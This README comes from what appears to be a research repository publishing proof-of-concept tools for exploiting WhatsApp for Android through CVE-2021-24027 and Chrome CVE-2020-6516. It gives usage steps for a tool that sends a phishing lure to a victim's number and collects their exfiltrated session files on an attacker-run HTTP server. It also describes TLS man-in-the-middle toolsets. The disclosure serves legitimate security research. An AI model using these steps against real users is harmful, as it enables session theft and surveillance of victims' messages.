 # WhatsApp MitD & MitM

## Introduction

This repository contains PoC code and tools that were developed as part of our
research [01] on remotely exploiting *Man-in-the-Disk* (MitD) vulnerabilities on
WhatsApp for Android. As discussed in our blog post, the code and accompanying
scripts found here, were used to exploit CVE-2020-6516 (Chrome) [02] and
CVE-2021-24027 (WhatsApp) [03].

The structure of this repository is as follows:

* The current directory contains the Python tool that hooks WhatsApp using Frida,
  sends the phishing message carrying the CORS bypass payload and runs an HTTP
  server, where exfiltrated session files from the victim device are sent to.

* **tls12\_psk\_extract/** contains the TLS v1.2 MitM toolset. See **README.md**
  in that directory for more information on how to prepare a MitM environment.

* **watls\_psk\_extract/** contains the TLS v1.3 (WaTLS) MitM toolset. See
  **README.md** in that directory for more information on how to prepare a MitM
  environment.

* **openssl-1.1.1f-patches/** contains OpenSSL 1.1.1f patches required for
  setting up TLS v1.2 and/or TLS v1.3 MitM environments.

* **secrets/** holds a simple shell script and an OpenSSL configuration for
  generating certificates similar to those used by the WhatsApp TLS v1.3
  infrastructure. The generated keys and certificates can be used for both
  TLS v1.2 and v1.3 MitM.

* Last but not least, **misc/** contains various Frida scripts that were used
  for testing and debugging purposes during our research and might be helpful to
  other researchers.


## Usage

To test the PoC you need an Android device running WhatsApp 2.20.206.22 [04].
Even though our code was initially developed for 2.19.355, and so you can find
the corresponding snippets under **frida_scripts/**, that version is nowadays
considered "expired" and won't work.

Before firing up the PoC, it is a good idea to compile as little as possible of
WhatsApp's DEX code. Doing so might proactively help in avoiding issues like
Frida not being able to hook specific methods.

    adb shell
    am force-stop com.whatsapp
    pm compile -f -m space com.whatsapp
    am start com.whatsapp/.Main

Download Frida server and push it on your Android device under **/data/local/tmp**,
leaving the default file name as is. Version 12.8.10 is tested and known to work
well. Feel free to download a more recent one if you prefer to. The PoC will
automatically detect the Frida server binary and will attempt to execute it with
the appropriate command line arguments.

    cd /tmp
    curl -O https://github.com/frida/frida/releases/download/12.8.10/frida-server-12.8.10-android-arm64.xz
    xz -d frida-server-12.8.10-android-arm64.xz
    adb push frida-server-12.8.10-android-arm64 /data/local/tmp

The main logic of the exploit is implemented in **main.py**. Files **adb.py**
and **frida_util.py** are trimmed down versions of tools that we use internally
for various debugging tasks on Android devices.

To run the PoC, attach your Android device on your computer and run the
following command:

    python3 main.py -s ANDROID_SERIAL -a 192.168.1.100 -p 8000 -r \
        images/the_guardian.jpg MOBILE_NUMBER@s.whatsapp.net "Rush for Mediterranean gas"

The command line switches passed to **main.py** are the following:

* `-s` - The serial number of the Android device to use, in case the attacker
  has multiple Android devices attached on her computer.

* `-a` and `-p` - Address and port, respectively, of the HTTP server where the
  exfiltrated sessions will be sent to.

* `-r` - Instructs **main.py** to start the aforementioned HTTP server on the
  local computer. If you don't pass `-r`, make sure you run **server.py** on the
  host specified by `-a` and `-p`.

Positional arguments are the following:

* **images/guardian.jpg** - A JPG image that will be used as a fake message
  preview, in order to lure the victim into clicking on it.

* **MOBILE_NUMBER@s.whatsapp.net** - The victim's mobile phone number in WhatsApp
  format. This is usually the country prefix followed by the mobile number. For
  example, Greek numbers (+30) look like `301234567890@s.whatsapp.net`.

* **"Rush for Mediterranean gas"** - An arbitrary string to be used as the
  message caption.

For a real life usage example, have a look at our blog post, and more specifically
at the demonstration videos.


## References

[01] <https://census-labs.com/news/2021/03/07/whatsapp-mitd-remote-exploitation-CVE-2021-24027/>

[02] <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-6516>

[03] <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24027>

[04] <https://www.apkmirror.com/apk/whatsapp-inc/whatsapp/whatsapp-2-20-206-22-release/whatsapp-messenger-2-20-206-22-android-apk-download/>

